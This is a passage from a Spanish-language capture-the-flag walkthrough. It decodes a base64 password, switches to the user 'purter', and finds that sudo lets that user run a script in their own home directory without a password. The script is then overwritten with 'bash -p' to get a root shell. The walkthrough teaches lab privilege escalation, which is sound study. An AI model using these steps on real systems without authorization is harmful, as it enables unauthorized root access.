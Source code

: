 ~~~ bash
echo "aW1wb3NpYmxlcGFzc3dvcmR1c2VyZmluYWw=" | base64 -d;echo

imposiblepassworduserfinal
~~~

El único usuario al que nos queda migrar antes de `root` sería `purter`

~~~ bash
su purter
Password: 
purter@ec965dc496ab:/home/dimer$ 
~~~


## Sudoers Privileges - `purter`

Volveremos a ver los privilegios que tengamos a nivel de `sudoers` para ver si podemos ejecutar algún otro recurso

~~~ bash
purter@ec965dc496ab:/home/dimer$ sudo -l
Matching Defaults entries for purter on ec965dc496ab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User purter may run the following commands on ec965dc496ab:
    (ALL : ALL) NOPASSWD: /home/purter/.script.sh
~~~

~~~ bash
purter@ec965dc496ab:/home/dimer$ sudo /home/purter/.script.sh
root
~~~

Intentaremos ver el contenido del script, que parece la salida del comando `whoami`

~~~ bash
purter@ec965dc496ab:/home/dimer$ cat /home/purter/.script.sh
#!/bin/bash

whoami
~~~


## Root time

Como este script está en nuestro directorio personal, podemos intentar reemplazar el script para que ejecute lo que nosotros definamos con un script nuevo

~~~ bash
purter@96d2cb0bc57d:~$ rm .script.sh
purter@96d2cb0bc57d:~$ echo '#!/bin/bash' > .script.sh
purter@96d2cb0bc57d:~$ echo 'bash -p' >> .script.sh
purter@96d2cb0bc57d:~$ chmod +x .script.sh
~~~

Ahora que tenemos un script que ejecuta una `bash` como `root` gracias al parámetro `-p`, podemos lanzar el script con sudo

~~~ bash
purter@96d2cb0bc57d:~$ sudo /home/purter/.script.sh
~~~

